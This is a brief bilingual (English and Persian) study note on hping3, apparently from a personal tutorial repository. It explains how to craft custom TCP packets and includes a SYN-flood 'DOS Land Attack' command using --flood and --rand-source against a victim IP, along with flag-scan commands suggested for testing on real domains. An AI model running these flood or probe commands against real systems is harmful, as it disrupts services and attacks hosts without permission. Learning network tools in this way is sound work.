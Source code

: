 $\color{#b91646}{\textsf{hping3}}$
==================================

### $\color{#25678D}{\textsf{hping3}}$

hping3 is a network tool able to send custom TCP/IP packets and to display target replies like ping program does with  ICMP  replies.  hping3 handle  fragmentation,  arbitrary packets body and size and can be used	in order to transfer  files  encapsulated  under  supported  protocols.

_____________________

- **-1 normal ping**

نی تونه ping معمولی انجام بدیم. -> با استفاده از سوئیچ 1-


Create an ACK packet and send it to port 80 on the victim: hping3 –A <target IP address> -p 80. Test with jadi.ir and yahoo.com
Create a packet with FIN, URG, and PSH flags set and send it to port 80 on the victim: hping3 –F –P -U <target IP address> -p 80
DOS Land Attack: hping3 -V -c 1000000 -d 120 -S -w 64 -p 445 -s 445 --flood --rand-source VICTIM_IP
-c count, -d size, -S syn, -w winsize, -p port -s source port 

![Uploading image.png…]()

یک network tool است برای فرستادن packet های خاص TCP/IP -> توی پروتکل های UDP, ICMP و ... هم می تونه بفرسته.
